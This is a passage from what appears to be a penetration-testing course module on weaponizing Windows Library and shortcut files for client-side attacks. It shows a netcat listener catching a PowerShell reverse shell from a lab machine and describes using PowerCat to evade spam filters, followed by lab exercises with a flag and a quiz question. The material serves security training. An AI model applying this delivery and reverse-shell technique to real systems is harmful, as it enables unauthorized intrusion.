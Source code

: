 > Listing 21 - Uploading our Library file to the SMB share on the HR137 machine

After we put the library file on the target's machine via smbclient, a simulated user on the system opens it and starts the reverse shell by executing the shortcut file.

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.195] 56839
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0> whoami
whoami
hr137\hsmith
```

> Listing 22 - Incoming reverse shell from HR137

Listing 22 shows that we successfully received a reverse shell with our Library and shortcut files.

Excellent.

We could also have combined this technique with our previous Office macro attack, or any other type of client-side attacks.

In this section, we learned about Windows Library files and how to weaponize them as an effective first stage to deliver an executable file in client-side attacks. As second stage, we used a shortcut file to download PowerCat and start a reverse shell. Windows Library files are a great way to deliver our second stage payloads without exposing them to security technologies such as spam filters.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

| Name  (Click to sort ascending) | IP Address |  |
| --- | --- | --- |
| Client-side Attacks - Abusing Windows Library Files - VM Group 1  Start **Client-side Attacks - Abusing Windows Library Files - VM Group 1** with Kali browser access |  |  |
| Client-side Attacks - Abusing Windows Library Files - VM Group 2  Start **Client-side Attacks - Abusing Windows Library Files - VM Group 2** with Kali browser access |  |  |

#### Labs

1. Follow the steps in this section to get code execution on the *HR137* (VM Group 1 - VM #2) system by using library and shortcut files. Be aware that after every execution of a **.lnk** file from the WebDAV share, the library file from the SMB share will be removed. You can find the flag on the desktop of the *hsmith* user. You can use VM #1 of VM Group 1 to build the library file and shortcut.

Answer

2. Answer the following question with true or false: Is the **.lnk** file tagged with the "Mark of the Web" when you execute it in Explorer by double-clicking the Windows library file?
